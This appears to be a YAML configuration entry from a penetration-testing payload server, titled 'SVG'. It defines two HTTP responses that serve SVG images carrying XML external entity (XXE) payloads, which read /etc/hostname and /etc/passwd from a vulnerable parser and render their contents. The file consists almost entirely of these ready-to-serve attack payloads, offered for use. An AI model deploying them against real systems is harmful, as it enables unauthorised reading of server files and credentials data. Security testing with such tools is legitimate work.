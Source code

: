 ```yaml
---
title: SVG
description: Returns an SVG payload with XXE to get files
weight: 1
payloads:
  - type: HTTPX
    project_id: 1
    sort_order: 1
    pattern: /sh$
    data: '{"headers":{"Content-Type":"text/xml"},"body":"\u003c?xml version=\"1.0\" standalone=\"yes\"?\u003e\\n\u003c!DOCTYPE test [ \u003c!ENTITY xxe SYSTEM \"file:///etc/hostname\" \u003e ]\u003e\\n\u003csvg width=\"128px\" height=\"128px\" xmlns=\"http://www.w3.org/2000/svg\" xmlns:xlink=\"http://www.w3.org/1999/xlink\" version=\"1.1\"\u003e\\n\u003ctext font-size=\"16\" x=\"0\" y=\"16\"\u003e\u0026xxe;\u003c/text\u003e\\n\u003c/svg\u003e"}'

  - type: HTTPX
    project_id: 1
    sort_order: 1
    pattern: /sv$
    data: '{"headers":{"Content-Type":"image/svg+xml"},"body":"\u003c?xml version=\"1.0\" standalone=\"yes\"?\u003e\u003c!DOCTYPE ernw [ \u003c!ENTITY xxe SYSTEM \"file:///etc/passwd\" \u003e ]\u003e\u003csvg width=\"500px\" height=\"100px\" xmlns=\"http://www.w3.org/2000/svg\" xmlns:xlink=\"http://www.w3.org/1999/xlink\" version=\"1.1\"\u003e\u003ctext font-family=\"Verdana\" font-size=\"16\" x=\"10\" y=\"40\"\u003e\u0026xxe;\u003c/text\u003e\u003c/svg\u003e"}'
---
```


Depends on an internal code